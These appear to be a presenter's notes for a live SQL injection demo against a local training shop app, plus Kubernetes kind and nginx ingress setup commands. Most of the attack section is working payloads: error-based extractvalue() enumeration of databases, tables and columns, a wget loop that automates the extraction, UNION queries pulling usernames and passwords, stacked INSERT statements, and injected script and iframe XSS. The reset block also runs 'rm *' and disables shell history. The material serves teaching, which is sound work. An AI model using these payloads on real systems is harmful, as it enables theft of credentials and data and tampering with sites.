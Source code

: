 # RESET

```
set +o history
kind delete cluster
helm repo remove nginx-stable
rm *
cp /Users/cns/httpdocs/talks/nginx-livedemo/cluster-config.yaml .
reset
kind create cluster --config cluster-config.yaml
yq cluster-config.yaml
```

# todo:

- create deployment
- create node port service

# leak data

theres a few ways we can leak data out,

## error

we can simply corrupt the query to see if an error attack might work

```
http://localhost/product/1"a
```

ok, great news errors are surfaced we'll use `extractvalue()` its a simple way to is an easy way to generate an error and allow us to leak things, it only works with single values at a time, and will be truncated a bit, so requires enumerating through them

```
http://localhost/product/1" AND extractvalue(rand(),version())-- //
```

start enumerating through to see the databases

```
http://localhost/product/1" AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,schema_name) FROM information_schema.schemata LIMIT 0,1)))-- //
http://localhost/product/1" AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,schema_name) FROM information_schema.schemata LIMIT 1,1)))-- //
```

ok, so now we know the database name we is sqltraining, so we can use the same tactic to get the tables in that database

```
http://localhost/product/1" AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,TABLE_NAME) FROM information_schema.TABLES WHERE table_schema="sqlitraining" LIMIT 0,1)))-- //
```

interesting a users table!

```
http://localhost/product/1" AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,TABLE_NAME) FROM information_schema.TABLES WHERE table_schema="sqlitraining" LIMIT 1,1)))-- //
```

Now all this enumeration might feel quite laborious, but what if instead use a simple script to do that instead

```bash
for i in {0..20}; do
  wget -q -O - "http://localhost/product/1\" AND extractvalue(rand(),concat(0x3a,(SELECT COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME=\"products\" AND table_schema=\"sqlitraining\" LIMIT ${i},1)))-- //" | grep mysqli_sql_exception | cut -d" " -f9
done
```
it shouldn't take much imagination to figure out how you could automate stealing all rows

# union leak
we don't know how many columns were in the original query so we have to brute force queries to satisfy the original query
```
http://localhost/product/-1" UNION SELECT username FROM users where id=1 -- //
http://localhost/product/-1" UNION SELECT username, password FROM users where id=1 -- //
http://localhost/product/-1" UNION SELECT username, password, username FROM users where id=1 -- //

http://localhost/product/-1" UNION SELECT username,username,password,password,username FROM users where id=1 -- //
```
###


## inserting
```
http://localhost/product/1"; INSERT INTO products(product_name, product_type, description, price) VALUES("hack", "hack", "hack", 1); -- //
```
## inserting with xss
```
http://localhost/product/1"; INSERT INTO products(product_name, product_type, description, price) VALUES("<script>alert('hi')</script>", "hack", "hack", 1); -- //
http://localhost/product/1"; INSERT INTO products(description, product_name, product_type, price) VALUES("<iframe width=560 height=315 src='https://www.youtube-nocookie.com/embed/dQw4w9WgXcQ'></iframe>", "never gonna", "give you up", 1); -- //

```

Similarly you can probably imagine anything else we can do like truncate tables, add users, dump lots of data into a table

http://localhost/product/<iframe width='560' height='315' src='https://www.youtube-nocookie.com/embed/dQw4w9WgXcQ'></iframe>

<iframe sandbox="allow-forms allow-modals allow-popups allow-pointer-lock allow-same-origin allow-scripts" allowfullscreen="true" src="https://www.youtube-nocookie.com/embed/9Auq9mYxFEE?autoplay=1&amp;mute=1&amp;cc=1"></iframe>
# ingress
```bash
helm repo add nginx-stable https://helm.nginx.com/stable

helm install main nginx-stable/nginx-ingress \
 --set controller.enableSnippets=true \
 --set controller.service.type=NodePort \
 --set controller.service.httpPort.nodePort=30000
```